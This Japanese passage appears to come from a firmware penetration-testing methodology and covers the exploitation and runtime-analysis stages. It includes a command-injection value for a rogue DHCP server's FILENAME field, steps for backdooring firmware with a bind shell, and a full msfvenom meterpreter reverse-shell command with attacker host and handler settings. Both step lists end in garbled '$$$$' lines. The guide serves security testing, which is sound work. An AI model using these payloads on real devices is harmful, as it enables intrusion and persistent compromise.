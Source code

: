 * PXE ブート時にデバイスが取り込むための入力として、悪意のあるパラメータで不正な DHCP サーバーを構成します。
  * Metasploit の \(MSF\) DHCP 補助サーバーを使用し、 `'a";/bin/sh;#'` などのコマンドインジェクションコマンドで '`FILENAME`' パラメータを改変して、デバイスのスタートアップ手順の入力妥当性確認をテストします。

\*ハードウェアセキュリティテスト

#### ファームウェア完全性テスト

整合性や署名検証欠陥のためにカスタムファームウェアやコンパイル済みバイナリをアップロードしてみます。例えば、以下の手順を使用して、ブート時に起動するバックドアバインドシェルをコンパイルします。

1. firmware-mod-kit \(FMK\) でファームウェアを抽出します
2. ターゲットファームウェアアーキテクチャとエンディアンを特定します
3. Buildroot または環境に適した他の方法を使用してクロスコンパイラをビルドします
4. クロスコンパイラを使用してバックドアをビルドします
5. バックドアを抽出されたファームウェアの /usr/bin にコピーします
6. 適切な QEMU バイナリを抽出されたファームウェアの rootfs にコピーします
7. chroot および QEMU を使用してバックドアをエミュレートします
8. netcat を介してバックドアに接続します
9. 抽出されたファームウェアの rootfs から QEMU バイナリを削除します
10. 改変されたファームウェアを FMK で再パッケージします
11. firmware analysis toolkit \(FAT\) でエミュレートし、 netcat を使用してターゲットバックドア IP およびポートに接続して、バックドア化されたファームウェアをテストします
12. $$$$$$$$$$$$$

ルートシェルが動的解析、ブートローダ操作、またはハードウェアセキュリティテスト手段からすでに取得されている場合は、インプラントやリバースシェルなどのプリコンパイルされた悪意のあるバイナリを実行してみます。 command and control \(C&C\) フレームワークに使用される自動ペイロード/インプラントツールの使用を検討します。例えば、 Metasploit フレームワークと 'msfvenom' は以下の手順を使用して活用できます。

1. ターゲットファームウェアアーキテクチャとエンディアンを特定します。
2. `msfvenom` を使用して適切なターゲットペイロード \(-p\) 、攻撃者ホスト IP \(LHOST=\) 、リスニングポート番号 \(LPORT=\) 、ファイルタイプ \(-f\) 、アーキテクチャ \(--arch\) 、プラットフォーム \(--platform linux または windows\) 、出力ファイル \(-o\) を指定します。例: `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. 危殆化したデバイスにペイロードを転送し \(例えば、ローカルウェブサーバーを実行し、ペイロードをファイルシステムに wget/curl します\) 、ペイロードに実行権限があることを確認します。
4. 着信リクエストを処理するために Metasploit を準備します。例えば、 msfconsole で Metasploit を起動し、上記のペイロードに従って以下の設定を使用します。 exploit/multi/handler を使用します。
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #attacker host IP`
   * `set LPORT 445 #can be any unused port`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. 危殆化したデバイス上で meterpreter リバースシェルを実行します。
6. meterpreter セッションがオープンするのを見ます。
7. エクスプロイト後のアクティビティを実施します。
8. $$$$$$$$$$$$$$$$

可能であれば、スタートアップスクリプト内にある脆弱性を特定して、再起動時にデバイスへの永続的にアクセスできるようにします。このような脆弱性は起動スクリプトが SD カードや、ルートファイルシステムの外部にあるストレージデータに使用されるフラッシュボリュームなど、信頼できないマウントされた場所にあるコードを参照したり、 [シンボリックリンク](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data) したり、依存したりする場合に発生します。

### **\[ステージ 8\] ランタイム解析**

ランタイム解析ではデバイスが通常環境またはエミュレートされた環境で実行している際に実行中のプロセスまたはバイナリにアタッチします。基本的なランタイム解析の手順を以下に示します。
